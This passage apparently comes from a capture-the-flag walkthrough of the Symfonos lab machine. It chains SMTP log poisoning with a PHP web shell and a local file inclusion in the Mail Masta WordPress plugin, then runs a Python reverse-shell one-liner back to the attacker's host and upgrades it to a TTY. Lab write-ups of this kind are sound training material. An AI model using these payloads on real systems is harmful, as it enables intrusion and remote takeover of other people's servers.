```
MAIL FROM:<Muzec@hacker.com>
RCPT TO:<?php system($_GET['cmd']); ?>
```

Note: We can ignore the 501 5.1.3 Bad recipient address syntax server response as seen in the above screenshot because ideally the internal email program of the server (victim machine), is expecting us to input an email ID and not the OS commands.

```
http://symfonos.local/h3l105//wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios
```

Now we can see the logs.

![image](https://user-images.githubusercontent.com/69868171/156567980-17821be5-cd69-44b2-b6db-8633fe23ee49.png)

Now let try to execute a command.

```
http://symfonos.local/h3l105//wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=id
```

![image](https://user-images.githubusercontent.com/69868171/156568137-a02a6026-f64c-4d9e-a05f-2460f95b72df.png)

Now we have RCE let get a reverse shell back to our terminal using `python` .

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```
symfonos.local/h3l105//wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.109.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image](https://user-images.githubusercontent.com/69868171/156568519-230adccd-d180-41fb-bb4b-472e13143a53.png)

Now let spawn a full TTY shell.

```
python -c 'import pty; pty.spawn ("/bin/bash")'
Ctrl Z
stty raw -echo;fg
Enter
stty rows 21 cols 210
export TERM=xterm-256color
```

![image](https://user-images.githubusercontent.com/69868171/156569616-e157d3c2-2163-41d6-9fcd-c2f104b0bb54.png)

Ahhh checking `sudo -l` and seems we no `sudo` install now let check for SUID.
